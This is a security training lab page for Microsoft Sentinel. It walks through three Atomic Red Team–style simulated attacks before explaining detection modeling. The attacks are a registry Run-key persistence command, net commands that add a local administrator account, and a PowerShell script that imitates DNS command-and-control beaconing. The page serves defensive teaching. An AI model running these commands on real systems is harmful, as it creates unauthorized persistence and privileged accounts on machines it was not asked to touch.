

## Lab 03 - Understand Detection Modeling

### Lab Scenario

In this lab, you will understand the attacks and about Detection Modeling

## Lab objectives
 In this lab, you will understand the following:
- Task 1: Understand the Attacks
- Attack 1 - Persistence with Registry Key Add.
- Attack 2 - User Add and Elevate Privilege
- Attack 3 - DNS / C2 
- Task 2: Understand Detection Modeling.

## Estimated timing: 10 minutes

## Architecture Diagram

  

### Task 1: Understand the Attacks

**IMPORTANT: You will perform no actions in this exercise.**  These instructions are only an explanation of the attacks you will perform in the next exercise. Please carefully read this page.

The attack patterns are based on an open-source project: https://github.com/redcanaryco/atomic-red-team

   **Note:** Some settings are triggered in a smaller time frame just for our lab purpose.

#### Attack 1 - Persistence with Registry Key Add.

This attack is run from a command prompt:

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### Attack 2 - User Add and Elevate Privilege

Attackers will add new users and elevate the new user to the Administrators group.  This enables the attacker to logon with a different account that is privileged.

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### Attack 3 - DNS / C2 

This attack will simulate a command and control (C2) communication.

```PowerShell
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

### Task 2: Understand Detection Modeling.

Microsoft Sentinel Analytics provides an intelligent solution that you can use to detect potential threats and vulnerabilities in your organizations. You can detect previously uncovered threats and rapidly remediate threats with built-in orchestration and automation in Microsoft Sentinel.

Detection modeling in XDR involves the creation and refinement of rules, algorithms, and analytical processes to identify and respond to security threats across various endpoints, networks, and cloud environments. XDR integrates data from multiple sources to provide a comprehensive and correlated view of potential security incidents.

You can detect the threats or incidents using various tools in Azure Sentinel. For example, by configuring various Data Connectors in Azure Sentinel, you will get the incidents/alerts through the connected providers; run queries in the Log Analytics workspace to detect these potential alerts which you will learn in the upcoming labs.

Using Microsoft Sentinel Analytics, you can analyze historical data collected from your workstations, servers, networking devices, firewalls, intrusion prevention, sensors, and so on. Microsoft Sentinel Analytics analyzes data from various sources to identify correlations and anomalies.

## Review
In this lab
- You have understood attacks:
   - Attack 1 - Persistence with Registry Key Add.
   - Attack 2 - User Add and Elevate Privilege
   - Attack 3 - DNS / C2 
- You have understood Detection Modeling. 
